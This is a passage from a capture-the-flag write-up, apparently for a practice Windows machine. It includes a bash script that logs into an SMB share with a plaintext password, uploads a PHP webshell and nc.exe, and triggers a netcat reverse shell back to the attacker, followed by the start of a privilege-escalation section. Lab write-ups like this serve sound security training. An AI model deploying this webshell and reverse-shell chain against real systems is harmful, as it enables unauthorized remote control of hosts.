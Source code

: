     C:\inetpub\new-site>whoami
    secnotes\tyler



From here I can grab `user.txt`:



    C:\Users\tyler\Desktop>type user.txt
    6fa75569...



### Directory Clearing

The root directory of the share / webserver seems to be cleared out very
frequently, which could get annoying. I created a quick script to get a
shell callback:



    #!/bin/bash

    if [ "$#" -ne 2 ]; then
        echo "Usage: $0 [ip] [port]"
        echo "Include ip and port to connect back to"
        exit
    fi;

    ip=$1
    port=$2

    echo "[*] Uploading webshell and nc.exe"
    smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/php/cmd.php 0xdf.php' || (echo "[-] Upload php failed" && exit 1)
    smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/netcat/nc.exe nc.exe' || (echo "[-] Upload nc failed" && exit 1)
    echo "[+] Successfully uploaded webshell and nc.exe"

    echo "[*] Triggering nc shell callback to ${ip}:${port}"
    curl "http://10.10.10.97:8808/0xdf.php?cmd=nc.exe+-e+cmd.exe+${ip}+${port}"



## Privesc

### bash.exe

Enumerating the host, there's a couple places that hint to look at the
Linux Subsystem. First, on the desktop right next to `user.txt` is a
shortcut to `bash`:



    C:\Users\tyler\Desktop>dir                                                                                                                                                                                          [54/290]
    dir                            
     Volume in drive C has no label.
     Volume Serial Number is 9CDD-BADA           
                                               